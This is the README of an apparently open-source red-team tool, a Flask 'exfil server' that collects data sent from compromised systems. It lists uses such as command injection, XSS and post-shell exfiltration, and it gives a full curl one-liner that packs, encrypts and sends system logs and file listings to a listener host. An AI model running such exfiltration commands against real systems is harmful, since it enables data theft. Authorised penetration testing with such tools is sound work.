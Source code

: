 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [File Upload](docs/FileUpload.md)
- [Automatic Payload Processing](docs/PayloadProcessing.md)
- [Automatic Archive Extraction](docs/ArchiveExtraction.md)
- [JSON Logging](docs/JSONLogging.md)
- [Configurable Options](docs/Configurations.md)

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

usage: reddrop-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG] [--dump-config] [--debug] [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                         [-A | --auto-process | --no-auto-process] [--auto-extract-tar]
                         [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

                      +:                     
                    .*##-                    
                   :##**#+                   
                  +#*****##:                 
                :##********#+                
               =#***********#+               
              =#******#******#*              
            .+#******#-*#*****##-            
           -#******#*.  =#******#*           
          +#******#+     :##*****##:         
        .*#*****##-        +#******#=        
       :#******#+.          -#******#+       
      -#******#-             :##*****#*.     
     +#******#:               .*#*****##:    
   :##*****#*.                  =#******#+   
    *#****#-                     .*#****#-   
   +#***##.                        =#***##:  
  +#****##.                        +#*****#: 
 +#****##.                          =#*****#.
:#*****#.                            ******#=
*#******         Red    Drop         -#******
#******+                             :#*****#
#*******                             -#*****#
*#*****#.                            +*******
-#*****#*                           -#*****#=
 *#*****#*.                        =#******#.
  *#******#=.                    -*#******#- 
   +#*******#*-               :+##******##:  
    -##*******##*+=-:...::-=+##********#*.   
      -*#**********#######***********#+:     
        -*#***********************##+.       
          .=+##***************##*=:          
              :-=+**######**+=:              

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more than once to define multiple process_list functions. Use this
                        flag in the order in which you wish to process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data. This option is enabled by default, but should be disabled (--no-
                        auto-process) when you receive output you don't expect. Such as in the case of Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the process with the `-p` flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default: EncryptMe)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
